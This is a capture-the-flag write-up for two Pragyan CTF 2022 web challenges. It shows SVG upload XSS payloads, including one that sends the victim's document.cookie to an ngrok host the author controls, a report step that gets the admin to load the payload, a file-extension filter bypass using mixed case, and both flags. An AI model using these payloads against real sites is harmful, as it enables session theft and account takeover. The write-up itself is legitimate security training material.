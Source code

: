 ## Pragyan CTF 2022 - Web Challenge

> Chall Name : Excess Cookie V1 

> Description : You need to get logged in as admin to complete this challenge.

On visiting the challenge link,it shows normal login and register page.Created the user account and get logged in as normal user.

![Screenshot](/screenshots/sreenshot1.png "Screenshot")

It has the image uploading functionality and i tried to popup the XSS using SVG

> Scalable Vector Graphics(SVG) is an XML-based vector image format for two-dimensional graphics with support for interactivity and animation.

I have the common payload used for fire the XSS using SVG,Here is the payload!!
```

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
   alert(1);
   </script>
</svg>

```

Here,the website having another functionality which was report the user.If i report any user admin will look into that user profile.
So,What i done was,

Open the terminal and started python http server and open another tab and started  ngrok with the port which is used for python http server

![Screenshot](/screenshots/screensho2.png "Screenshot")

Alter the payload like this, 

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
var i=new Image;
i.src="http://8eb8-59-98-37-253.ngrok.io/?"+document.cookie;
   
   </script>
</svg>
```
And upload it as the profile picture,after that copy the userid and report it to the admin.
And the ADMIN cookie stealed!!

![Screenshot](/screenshots/admincookie.png "Screenshot")

Change auth cookie to this admin cookie, We found the FLAG !!

```
 p_ctf{x33_a4d_svg_m4k3s_b3st_p41r} 
```

> Chall Name : Excess Cookie V2

> Description : Last challenge vulnerabilities are fixed. Try to solve this.

Same as per first challenge,but svg extension was not accepted.
So,there was a way for bypassing it by renaming the extension as "filename.sVG" and uploaded this ,the site accpeted this svg and XSS fired!!!

There was no change in the payload ,using the same steps what i have done in V1 is enough to get the admin cookie

```
 p_ctf{x33_a4d_svg_m4k3s_b3st_p41r_on1y_w1th_http_0nly} 
```



